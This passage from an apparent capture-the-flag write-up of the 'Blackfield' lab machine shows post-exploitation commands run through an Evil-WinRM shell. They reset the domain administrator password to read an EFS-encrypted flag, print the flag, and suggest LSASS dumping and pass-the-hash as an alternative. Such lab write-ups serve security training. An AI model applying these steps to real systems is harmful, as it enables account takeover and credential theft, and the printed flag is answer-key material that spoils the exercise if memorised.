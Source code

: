 ```
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Administrators
Global Group memberships     *Domain Users
The command completed successfully.
```

Womp womp... Even as a local administrator we can't read root.txt, what's going on?

```
*Evil-WinRM* PS C:\users\administrator\desktop> whoami
blackfield\snowscan
*Evil-WinRM* PS C:\users\administrator\desktop> type root.txt
Access to the path 'C:\users\administrator\desktop\root.txt' is denied.
```

The file is EFS encrypted so that's why we can't read it:

```
*Evil-WinRM* PS C:\users\administrator\desktop> cipher /c root.txt

 Listing C:\users\administrator\desktop\
 New files added to this directory will not be encrypted.

E root.txt
  Compatibility Level:
    Windows Vista/Server 2008
```

As I understand it, the file is encrypted with a certificate which is stored in the Windows Certificate store and only the Administrator user can access it. So if we change the administrator password and log in as administrator we'll still be able to read the file since the cert can be retrieved:

```
*Evil-WinRM* PS C:\Users\snowscan\Documents> net users administrator Yolo1234!
The command completed successfully.

*Evil-WinRM* PS C:\Users\snowscan\Documents> exit

Info: Exiting with code 0

snowscan@kali:~/htb/blackfield_demo$ evil-winrm -u administrator -p 'Yolo1234!' -i 10.10.10.192

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> type ..\desktop\root.txt
9bdcc2eb072ca602a49faf7d34675056
```

Another way we could solve this without changing the password is to dump LSASS with procdump.exe, secretsdump.py, etc. then get the administrator hash and log in as administrator using the Pass-The-Hash technique.







